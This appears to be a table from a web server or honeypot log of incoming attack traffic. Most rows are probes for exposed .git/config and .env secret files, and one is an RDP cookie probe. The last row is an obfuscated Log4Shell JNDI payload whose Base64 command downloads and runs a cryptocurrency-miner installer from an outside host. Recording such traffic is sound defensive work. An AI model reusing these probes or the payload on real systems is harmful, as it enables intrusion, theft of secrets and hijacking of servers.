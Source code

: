 |  61 |                     2 | GET /src/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  62 |                     2 | GET /.env.preprod HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|  63 |                     2 | GET /admin/assets/js/views/login.js HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  64 |                     2 | GET /.env.production.local HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  65 |                     2 | GET /media/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  66 |                     2 | GET /www/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  67 |                     2 | GET /.env.ci HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
|  68 |                     2 | GET /.env.template HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  69 |                     2 | GET /build/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  70 |                     2 | \x03\x00\x00+&\xE0\x00\x00\x00\x00\x00Cookie: mstshash=hello                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  71 |                     2 | GET /settings/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  72 |                     2 | GET /t%28%27$%7B$%7Benv:NaN:-j%7Dndi$%7Benv:NaN:-:%7D$%7Benv:NaN:-l%7Ddap$%7Benv:NaN:-:%7D//46.8.226.196:3306/TomcatBypass/Command/Base64/ZXhwb3J0IEhPTUU9L3RtcDsgY3VybCAtcyAtTCBodHRwczovL2Rvd25sb2FkLmMzcG9vbC5vcmcveG1yaWdfc2V0dXAvcmF3L21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBMQ19BTEw9ZW5fVVMuVVRGLTggYmFzaCAtcyA0ODZ4cXc3eXNYZEt3N1JrVnpUNXRkU2lEdEU2c294VWRZYUdhR0UxR29hQ2R2QkY3clZnNW9NWEw5cEZ4M3JCMVdVQ1pySnZkNkFITUZXaXBlWXQ1ZUZOVXg5cG1HTg==%7D%27%29 HTTP/1.1 |